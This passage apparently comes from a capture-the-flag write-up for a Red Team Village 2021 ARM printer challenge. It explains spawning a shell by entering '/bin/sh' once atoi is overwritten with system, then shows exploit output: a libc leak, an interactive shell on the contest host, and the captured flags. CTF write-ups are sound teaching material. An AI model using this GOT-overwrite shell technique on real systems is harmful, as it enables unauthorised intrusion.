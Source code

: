 To trigger, just `1` to view the jobs, at the prompt, enter `/bin/sh` to get a shell (now that `atoi` is `system`).


Output (flag2 then flag1):

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/redteamvillagectf2021/tps_report_2/printer'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[+] Opening connection to pwnremote.threatsims.com on port 9100: Done
[*] '/pwd/datajerk/redteamvillagectf2021/tps_report_2/arm_libc.so.6'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0xa71000
[*] Switching to interactive mode
$ cat /proc/flag
TS{TheObstacleIstheWay_WhereIsTheParty}
$ cat /hemidyne/tps_report.rtf

                                     ,σ▒▒φ╓
                                ,╓φ▒╠╬╬╬╬╬╬╬╬▒╦,
                              ▓▓╬╬╬╬╬╬╩╙▓▄▒╬╬╬╬╬╠▒
                              █████╩└'''█████╬╙''.
                           ,  █████▒'''.█████▒''''  ,
                      ,╓φ╬╠╬╬▒╬████▒';╓φ╬████▒';╓φ▒╬╬╬╬▒╦,
                  ,σ▒╬╬╬╬╬╬╬╬╬╬╬╬╬╬▒╠╠╬╬╬╬╬╬╬▒╬╠╬╬╬╬╬╬╬╬╬╬╠▒╦╓
                 ▓█▓▄▒╬╠╩╙└╟█▓▄▒╬╠╩╙╙║██╩╙]██▓▒╬╠╠╩╙░██▓▒╬╬╠╩╙└
                 ▓████▌ '''╟████▌''''▐██▒']█████░..'j█████▒'..'
                 ▓████▌...'╟████▌''''▐██▒']█████░''.j█████▒'''.
                 ▓████▌╓φ▒╠╬╬╬██▌''''  ╙` ]█████░╓φ╬╠╬╬╬██▒''''
                 ▓█████▓▒╬╬╠╩╙╙'''''      ]███████▓▒╬╬╠╩╙└ ''''
                 ╫█████████▌'''.''.'░     '██████████░ .'''.''=
                   └▀▀█████▌''''░"           ╙▀██████░.''!ⁿ"
                        ╙▀█▌""                   ╙▀██░"

        ▓▓▓M 4▓▓▓▄  ]▓▓▓ ]▓▓▓╗▓▓▓▓▓▓▓▓▓⌐▓▓▓▓▓▓▓▓▓⌐ ╓▄▓▓▓▓▓▄µ  ╔▓▓▓   ]▓▓▓
       ]███  █████▌ ▓██▌ ╫███╙╙╙████╙╙╙]███▒╙╙╙╙╙╓███▀╙╙▀███▌ ███▌   ╫███
       ╫███ ╟███╚██████  ███⌐  ]███⌐   ╫████████ ███▌   ,,,, ▐██████████⌐
      .███⌐ ███⌐ ╙████▌ ╟███   ╫███   .████▓▓▓▓▌ ████▓▓████╨ ▓███   ╟███
       ╙╙╙  ╙╙╙   └╙╙╙  ╙╙╙`   ╙╙╙`    ╙╙╙╙╙╙╙╙└   └╙╙╙╙└    ╙╙╙    ╙╙╙`

---------------------------------- TPS REPORT ----------------------------------


Prepared By: Bill Lumbergh                                      Date: 6 Aug 2020

System: Printer

                           TS{tH3hEmiDynEf0rm@tR3p0rT}
```
